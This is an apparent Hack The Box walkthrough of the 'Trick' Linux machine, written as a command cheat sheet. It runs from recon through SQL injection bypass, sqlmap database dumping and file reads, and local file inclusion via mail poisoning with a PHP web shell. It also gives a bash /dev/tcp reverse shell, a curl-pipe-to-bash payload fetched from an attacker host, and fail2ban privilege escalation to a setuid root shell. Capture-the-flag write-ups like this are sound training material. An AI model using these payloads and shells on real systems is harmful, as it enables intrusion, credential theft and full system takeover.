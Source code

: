 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.166
nmap -p 22,25,53,80 -sCV 10.10.11.166
```

### DNS Recon
```bash
dig +noall +answer @10.10.11.166 trick.htb
dig +noall +answer @10.10.11.166 -x 10.10.11.166
dig axfr trick.htb @10.10.11.166
```

### Subdomain Fuzz
```bash
wfuzz -u http://10.10.11.166 -H "Host: FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480

# Looking for preprod-* subdomains:
wfuzz -u http://10.10.11.166 -H "Host: preprod-FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480
```

---

## 📨 [SMTP](SMTP.md) Enumeration

### Manual
```bash
telnet 10.10.11.166 25
VRFY root
VRFY michael
```

### Automated
```bash
smtp-user-enum -m VRFY -U /usr/share/seclists/Usernames/cirt-default-usernames.txt -t 10.10.11.166
```

---

## 📂 Web Enumeration

### Feroxbuster
```bash
feroxbuster -u http://trick.htb -x php
```

---

## 💉 Auth Bypass & SQL Injection

### SQL Bypass Payload
```sql
username=' OR 1=1-- -
```

### sqlmap Usage
```bash
# Basic
sqlmap -r login.req --batch --technique=B --level 5

# Dump user table
sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump

# File Read
sqlmap -r login.req --batch --threads 10 --file-read=/etc/passwd
sqlmap -r login.req --batch --threads 10 --file-read=/etc/nginx/sites-enabled/default
```

---

## 🌐 preprod-marketing.trick.htb - LFI

### Basic LFI Payload
```http
?page=....//....//....//....//etc/passwd
```

### Mail Poisoning via PHP Include
```bash
swaks --to michael --from attacker@htb.local \
--header "Subject: trick" --body "<?php system($_REQUEST['cmd']); ?>" \
--server 10.10.11.166
```

Then access:
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael&cmd=id
```

---

## 🐚 Reverse Shell (via mail or logs)

### Bash Reverse Shell Payload
```bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Send via curl
```bash
swaks --to michael --from attacker@htb \
--body "<?php system('curl http://10.10.14.6/shell | bash'); ?>" \
--server 10.10.11.166
```

### Listener
```bash
nc -lnvp 443
```

---

## 🔐 SSH Access as michael

### Save Private Key
Paste into `~/keys/trick-michael`, then:
```bash
chmod 600 ~/keys/trick-michael
ssh -i ~/keys/trick-michael michael@trick.htb
```

---

## 🛡️ PrivEsc: fail2ban Exploit

### Enumerate fail2ban Config
```bash
sudo -l
cat /etc/fail2ban/jail.conf
cat /etc/fail2ban/action.d/iptables-multiport.conf
```

### Overwrite Action
Edit `/etc/fail2ban/action.d/iptables-multiport.conf`:
```bash
actionban = cp /bin/bash /tmp/rootbash; chmod 4777 /tmp/rootbash
```

### Restart fail2ban
```bash
sudo /etc/init.d/fail2ban restart
```

### Trigger Ban from Attacker Box
```bash
crackmapexec ssh trick.htb -u user -p /usr/share/wordlists/rockyou.txt
```

### Root Shell via SetUID Bash
```bash
/tmp/rootbash -p
id
```

---

## 🏁 Flags

```bash
# As michael
cat ~/user.txt

# As root
cat /root/root.txt
```